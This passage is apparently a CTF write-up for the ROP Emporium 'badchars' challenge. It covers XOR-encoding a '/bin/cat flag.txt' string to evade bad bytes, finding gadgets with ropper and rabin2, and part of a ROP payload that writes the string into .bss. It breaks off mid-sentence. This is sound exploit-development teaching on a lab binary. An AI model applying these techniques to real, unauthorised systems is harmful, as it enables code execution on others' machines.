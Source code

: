 # badchars


## 32bit


## 64bit

Like always check the buffer we know it is 40bytes but its always good to be safe.

Running it we see some pretty bad news
```
badchars are: b i c / <space> f n s
```
Which eliminates `/bin` from our ropchain and any opcodes that happen to have the same bytes as the above chars

Converting them to hex so later we can give the bad bytes to ropper so it avoids them
```
0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73
```

### Avoiding Bad Chars


Luckily ROPEmporium was nice and left a hint in the symbol table of the ELF

![hint](imgs/64bit/usefulGadget.png)

If they weren't that nice we could have also found that gadget and other useful gadgets by using ropper which is covered in **Finding Gadgets** section below

So now that we know we have a nice XOR gadget to be used we need to XOR the badchars in `/bin/cat flag.txt` with a key in this instance a single letter since its
```
xor byte ptr [r15], r14b; ret;
```
This XORs a single byte in r15 with the low/first byte of r14

So our XOR key will just be a single letter

Using [xor.py](xor.py) a quick and dirty script made to help find a key that didn't produce any badchars

The key doesn't have to be the same for all of them. I just did for convience.

```
"/bin/cat flag.txt" XOR "D" = "k&-*k'atd"lag.txt"
```

Now that we can disguise our favorite string we can move on to creating the payload

### Creating the Payload

The payload is gonna have 3 parts
1) loading the string to memory
2) modifying the string in memory
3) loading the string into system call

#### Finding Gadgets

ropper is a super handy gadget finder that gef uses to locate ROP gadgets. It's general usage is as follows
- A 'gadget' in ROP terms is a string of asm operations followed by a ret call so it can be chained or returned into the next part of the ropchain
- `--search` uses a regex to find your query in the asm's opcodes ex: `--search "pop rdi"` will return gadgets that contain `pop rdi`
- `-b` is used to specify bad bytes, which is critical for this challenge

```
ropper --search $QUERY -b 6269632f20666e73 #-b is bad bytes and the number is all the bad bytes above just lumped together
```

#### Loading the String

Searching by `mov qword` we get

```
0x0000000000400b34: mov qword ptr [r13], r12; ret;
```

Searching for `pop r12` we get:

```
0x0000000000400b3b: pop r12; pop r13; ret;
```

Using these two gadgets we are able to take our string off the stack and into memory. But we can't use a lot of chars so whats the point!?

Even if we can write to memory it'll be missing chars so it'll just be garbage. But luckily we disguised our favorite string in the previous section
- The important thing is that it doesn't have any of the previously stated bad chars

We also need to find somewhere to place the string into memory. We can find this by looking at the ELF's sections. Using `rabin2` from radare2
```
rabin2 -S badchars
```
![data section](imgs/64bit/data.png)

```
data_start = 0x601080 # pop_r12_r13 = p64(0x400b3b)
mov_r13_r12 = p64(0x400b34)
load_str_1 = pop_r12_r13 + bin_cat + p64(data_start) + mov_r13_r12
load_str_2 = pop_r12_r13 + flag_txt + p64(data_start+0x8) + mov_r13_r12
load_str_3 = pop_r12_r13 + last_bit + p64(data_start+0x10) + mov_r13_r12
load_str = load_str_1 + load_str_2 + load_str_3
```
I'm using .bss(0x601080) instead of .data(0x601070) because the third char for the string would have landed at 0x601073 which ends in a bad char 0x73 aka 's'

You could off set it by one and have the start be 0x601071 so then the third char is 0x601074 instead of 0x601073 it really doesn't matter.

But throught this whole challenge be aware of the bad chars and if something isn't working but it definately should then it's probably bad chars.

Test and get this part working before moving on.

![loaded string](imgs/64bit/loadedString.png)

#### Modifing the String

Now that the string is load

